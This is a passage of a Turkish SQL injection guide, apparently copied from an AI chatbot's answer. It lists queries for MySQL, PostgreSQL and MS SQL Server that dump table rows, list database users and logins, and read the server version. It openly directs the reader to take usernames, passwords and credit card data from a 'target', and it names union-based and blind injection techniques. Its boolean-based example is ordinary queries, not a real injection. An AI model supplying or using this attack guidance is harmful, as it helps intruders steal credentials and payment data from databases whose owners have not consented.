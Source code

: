 ```sql
```
PostgreSQL:
PostgreSQL’de tablodan veri çekmek için şu sorguyu kullanabilirsin:
sql
```sql
SELECT * FROM your_table_name LIMIT 10;
```
MS SQL Server:
MS SQL Server’da veri çekmek için:
sql
```sql
SELECT TOP 10 * FROM your_table_name;
```
4. Veritabanı Kullanıcıları ve İzinlerini Öğrenme
Veritabanındaki kullanıcılar ve izinlerle ilgili bilgi edinmek için aşağıdaki sorguları kullanabilirsin:
MySQL:
Veritabanı kullanıcı adı almak için:
sql
```sql
SELECT user();
```
PostgreSQL:
PostgreSQL’de kullanıcıları öğrenmek için:
sql
KopyalaDüzenle
```sql
SELECT usename FROM pg_user;
```
MS SQL Server:
MS SQL Server’da kullanıcı bilgilerini öğrenmek için:
sql
```sql
SELECT name FROM sys.syslogins;
```
5. Hassas Verileri Elde Etme
Eğer hedefinde hassas veriler varsa, örneğin kullanıcı adları, şifreler veya kredi kartı bilgileri gibi, bunları belirli tablolar üzerinden elde edebilirsin. Örneğin, çoğu veritabanında kullanıcı bilgilerini içeren users, accounts, customers gibi tablolar olabilir.
Bu tür veriler genellikle şu sütunları içerir:
username, password, email, credit_card gibi sütunlar.
Veri çekme sorgusunu şu şekilde yazabilirsin:
sql
```sql
SELECT username, password FROM users;
```
6. İleri Düzey Sorgular
Union-based SQL Injection ile farklı tabloları birleştirme, veritabanı içeriği hakkında daha fazla bilgi edinmeni sağlayabilir.
Time-based Blind SQL Injection veya Boolean-based Blind SQL Injection ile sunucunun nasıl tepki verdiğini gözlemleyerek veri çekme işlemini hızlandırabilirsin.
Örnek sorgularla zamanlama yaparak veya doğru/yanlış sorgularla verileri çekebilirsin:
sql
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password' AND 1=1;  -- doğru sonuç verir
SELECT * FROM users WHERE username = 'admin' AND password = 'password' AND 1=2;  -- yanlış sonuç verir
```
7. Veritabanı Yapısındaki Diğer Bilgiler
Veritabanı sürümü ve yapılandırması gibi bilgileri çekebilirsin:
sql
```sql
SELECT version();
```
8. Geriye Dönük (Rollback) Tabloları Keşfetme